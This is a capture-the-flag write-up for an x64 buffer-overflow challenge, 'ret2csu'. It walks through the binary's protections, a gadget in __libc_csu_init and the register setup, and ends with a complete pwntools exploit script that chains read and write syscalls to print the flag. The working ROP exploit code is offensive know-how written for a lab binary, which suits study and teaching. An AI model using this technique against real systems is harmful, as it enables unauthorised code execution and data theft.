







## ret2csu
### Architecture and protections
The binary is x64 with no canary and no PIE.



### Static analysis
`main()` opens the flag and leaks the file descriptor `fd`, as well as the address of the global variable `fp`, then calls `bof()`.



`bof()` contains a vulnerable `gets()` for buffer overflow.



There is no `puts()`, hence the classic `ret2libc` by `puts()` leak is not possible here. However, there is `__libc_csu_init()` which contains the following gadget:

```assembly
0x401278 <+56>:    mov    rdx,r14
0x40127b <+59>:    mov    rsi,r13
0x40127e <+62>:    mov    edi,r12d
0x401281 <+65>:    call   QWORD PTR [r15+rbx*8]
0x401285 <+69>:    add    rbx,0x1
0x401289 <+73>:    cmp    rbp,rbx
0x40128c <+76>:    jne    0x401278 <__libc_csu_init+56>
0x40128e <+78>:    add    rsp,0x8
0x401292 <+82>:    pop    rbx
0x401293 <+83>:    pop    rbp
0x401294 <+84>:    pop    r12
0x401296 <+86>:    pop    r13
0x401298 <+88>:    pop    r14
0x40129a <+90>:    pop    r15
0x40129c <+92>:    ret
```

The two subsections of interest are `<+56>` to `<+62>`, and `<+84>` to `<+88>`. However, gadgets must run until a `ret`, so they need to be used as `<+56>` to `<+92>`, and `<+82>` to `<+92>` respectively.

### Exploit planning
1. Utilise the buffer overflow to return to a carefully crafted gadget chain.
2. The gadget chain sets up the registers to perform a `read` and `write` syscall on the flag.

### Exploit crafting
#### Register values

| reg | `read` | `write` |
|-----|--------|---------|
| rax | 0      | 1       |
| rdi | fd     | 1       |
| rsi | buffer | buffer  |
| rdx | count  | count   |

#### Pointer to `_init`, which does not affect the critical registers when called


#### Searching for additional gadgets needed, using `ropper`


#### Pad length


### Exploit code
```python
from pwn import *

def print_success(msg):
    print("[\033[1;92m+\033[0m] " + f"{msg}")

elf = context.binary = ELF('./CALL_OF_THE_SYSTEMS2', checksec=False)
context.log_level = "error"

p = process()

fd = int(p.recvline().strip().split()[-1].decode(), 16)
print_success(f"fd  : {hex(fd)}")

buf = int(p.recvline().strip().split()[-1].decode(), 16)
print_success(f"buf : {hex(buf)}")

ptr = 0x403de0 # pointer to _init

rax = 0x401155 # pop rax; ret;
ret = 0x401016 # ret;
sys = 0x401152 # syscall;

csu_pop = 0x401292
csu_call = 0x401278

payload = flat(
    16 * b'A',     # pad

    csu_pop,       # pop the following 6 values into the respective registers
    0,             # rbx
    1,             # rbp
    fd,            # r12 -> edi
    buf,           # r13 -> rsi
    50,            # r14 -> rdx
    ptr,           # r15 -> called function
    csu_call,      # transfer the key values to edi, rsi, rdx
    0,0,0,0,0,0,0, # junk values
    rax, 0,        # rax = 0 for read syscall
    ret, sys,      # read syscall

    csu_pop,       # pop the following 6 values into the respective registers
    0,             # rbx
    1,             # rbp
    1,             # r12 -> edi
    buf,           # r13 -> rsi
    50,            # r14 -> rdx
    ptr,           # r15 -> called function
    csu_call,      # transfer the key values to edi, rsi, rdx
    0,0,0,0,0,0,0, # junk values
    rax, 1,        # rax = 1 for write syscall
    ret, sys       # write syscall
)

p.sendline(payload)
p.interactive()

# CDDC2025{SYSCALL_IS_NOTTHAT_HARD_RIGHT?}
```

### Exploit success


### References
A similar challenge: [link](https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html)

Original research paper: [link](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)
